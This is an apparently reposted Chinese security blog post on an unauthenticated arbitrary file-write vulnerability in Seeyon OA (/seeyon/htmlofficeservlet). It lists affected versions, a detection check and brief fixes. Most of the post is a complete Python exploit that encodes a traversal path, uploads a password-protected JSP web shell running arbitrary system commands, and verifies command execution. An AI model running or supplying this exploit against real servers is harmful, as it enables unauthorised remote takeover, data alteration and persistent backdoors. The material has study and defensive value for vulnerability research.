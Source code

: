 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.voidcn.com](http://www.voidcn.com/article/p-wuabvojx-bya.html) 

近期爆出致远 OA 系统的一些版本存在任意文件写入漏洞，远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

目前已知易受攻击的版本：

致远A8-V5协同管理软件 V6.1sp1  
致远A8+协同管理软件 V7.0、V7.0sp1、V7.0sp2、V7.0sp3  
致远A8+协同管理软件 V7.1

如果成功利用此漏洞的攻击者可以在目标系统上写入任意文件，执行任意代码，更改或删除数据。

值得注意的是该系统的默认权限很高，如果被攻击者成功利用则可能会造成很大的危害。

验证是否存在漏洞的方法：访问URL /seeyon/htmlofficeservlet 出现如下内容可能存在漏洞

DBSTEP V3.0     0            21               0             htmoffice operate err

下面贴上一段野外poc：

该poc仅供学习研究，请勿破坏他人计算机！

Poc首先是加密写入文件的路径，然后再获取加密后的路径写入任意文件Getshell

python：

```
 1 #coding=utf-8
 2 import sys
 3 import requests
 4 
 5 def encode(origin_bytes):
 6     """
 7     重构 base64 编码函数
 8     """
 9     # 将每一位bytes转换为二进制字符串
10     base64_charset = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"
11     base64_bytes = [‘{:0>8}‘.format(bin(ord(b)).replace(‘0b‘, ‘‘)) for b in origin_bytes]
12  
13     resp = ‘‘
14     nums = len(base64_bytes) // 3
15     remain = len(base64_bytes) % 3
16  
17     integral_part = base64_bytes[0:3 * nums]
18     while integral_part:
19         # 取三个字节，以每6比特，转换为4个整数
20         tmp_unit = ‘‘.join(integral_part[0:3])
21         tmp_unit = [int(tmp_unit[x: x + 6], 2) for x in [0, 6, 12, 18]]
22         # 取对应base64字符
23         resp += ‘‘.join([base64_charset[i] for i in tmp_unit])
24         integral_part = integral_part[3:]
25  
26     if remain:
27         # 补齐三个字节，每个字节补充 0000 0000
28         remain_part = ‘‘.join(base64_bytes[3 * nums:]) + (3 - remain) * ‘0‘ * 8
29         # 取三个字节，以每6比特，转换为4个整数
30         # 剩余1字节可构造2个base64字符，补充==；剩余2字节可构造3个base64字符，补充=
31         tmp_unit = [int(remain_part[x: x + 6], 2) for x in [0, 6, 12, 18]][:remain + 1]
32         resp += ‘‘.join([base64_charset[i] for i in tmp_unit]) + (3 - remain) * ‘=‘
33  
34     return resp
35 def getshell(urls):
36     url = urls + "/seeyon/htmlofficeservlet"
37     headers = {
38         "Pragma": "no-cache",
39         "Cache-Control": "no-cache",
40         "Upgrade-Insecure-Requests": "1",
41         "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
42         "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
43         "Accept-Language": "zh-CN,zh;q=0.9",
44         "Connection": "close",
45     }
46     file_name = encode(‘..\\..\\..\\ApacheJetspeed\\webapps\\seeyon\\checkload32.jsp‘)
47     payload = """DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV\r
48 OPTION=S3WYOSWLBSGr\r
49 currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66\r
50 CREATEDATE=wUghPB3szB3Xwg66\r
51 RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6\r
52 originalFileId=wV66\r
53 originalCreateDate=wUghPB3szB3Xwg66\r
54 FILE\r
55 needReadFile=yRWZdAS6\r
56 originalCreateDate=wLSGP4oEzLKAz4=iz=66\r
57 <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("zs".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce"""
58     requests.post(url=url,data=payload,headers=headers)
59     result = requests.get(urls + "/seeyon/checkload32.jsp?pwd=zs&cmd=cmd+/c+echo+ZuoShou_Jsp_Shell")
60     if ‘ZuoShou_Jsp_Shell‘ in result.text :
61         print(u‘Jsp：Getshell成功\t{}‘.format(urls + "/seeyon/checkload32.jsp?pwd=zs&cmd=cmd /c whoami"))
62     else :
63         print(u‘Getshell失败‘)
64 if __name__ == ‘__main__‘:
65     if len(sys.argv)!=2 :
66         print(u"\t\t用法：python poc.py ‘http://loaclhost‘")
67     else:
68         url = sys.argv[1]
69         getshell(url)
```

修复方案：

1：对路径 /seeyon/htmlofficeservlet 进行限制访问

2：及时联系官网打补丁http://www.seeyon.com/Info/constant.html
